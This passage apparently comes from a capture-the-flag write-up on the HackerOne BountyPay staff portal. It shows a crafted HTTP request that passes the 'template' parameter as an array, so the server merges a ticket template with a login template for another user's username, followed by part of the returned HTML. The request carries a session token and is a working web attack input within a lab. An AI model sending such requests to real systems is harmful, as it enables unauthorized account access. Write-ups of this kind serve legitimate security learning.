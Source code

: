 I immediately tried turning template parameter into an array, in the hope that the backend would merge the two templates - and it did! Note the second `<!DOCTYPE html>` in the middle. followed by the second template:

```http
GET /?template[]=ticket&ticket_id=3582&template[]=login&username=sandra.allison HTTP/1.1
Host: staff.bountypay.h1ctf.com
Cookie: token=c0lsdUVWbXlwYnp5L1VuMG5qcGdMZnlPTm9iQjhhbzhweEtKaFFCZGhSVHBnMVNDWHlsVkRKclJqcnIwR09NOVM5N0IvVGtnM2g3TmhWU0lENlV5WVJLRHlmRlZMRXZqTzFPaWQ0bDA0M2xZdXozYld3czZSUG9McFZ4TWlCSGtVR3lDU3FycUZGUjY0QXNHclN6dzhLTUpjUEJ6c3Z5VmIwNnRMSmFMTzZYR0FrTURqY0NsMDY0bVkrQzE3UT09
```

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="utf-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>BountyPay Staff Portal</title>
    <link href="/css/bootstrap.min.css" rel="stylesheet">
    <link href="/css/style.css" rel="stylesheet">
</head>
<body><nav class="navbar navbar-inverse navbar-fixed-top">
    <div class="container">
        <div class="navbar-header">
            <button type="button" class="navbar-toggle collapsed" data-toggle="collapse" data-target="#navbar" aria-expanded="false" aria-controls="navbar">
                <span class="sr-only">Toggle navigation</span>
                <span class="icon-bar"></span>
                <span class="icon-bar"></span>
                <span class="icon-bar"></span>
            </button>
            <a class="navbar-brand" href="/">BountyPay Staff</a>
        </div>
        <div id="navbar" class="collapse navbar-collapse">
            <ul class="nav navbar-nav navbar-right">
                <li><a href="/logout">Logout</a></li>
            </ul>
        </div><!--/.nav-collapse -->
    </div>
</nav>
<div class="container" style="margin-top:60px">
    <div class="row">

        <div class="col-md-8 col-md-offset-2">


            <div class="panel panel-default">
                <div class="panel-heading">Message</div>
                <div class="panel-body">
                    <div style="width: 100px;position: absolute">
                        <div style="margin:auto" class="avatar avatar3"></div>
                        <div class="text-center">Admin</div>
                    </div>
                    <div>
                        <div class="alert alert-info" style="margin-left:100px;min-height:80px">
                            <p>Welcome to the staff portal, This is an automated message to show you what a ticket looks like</p>
                        </div>
                    </div>
                </div>
            </div>


```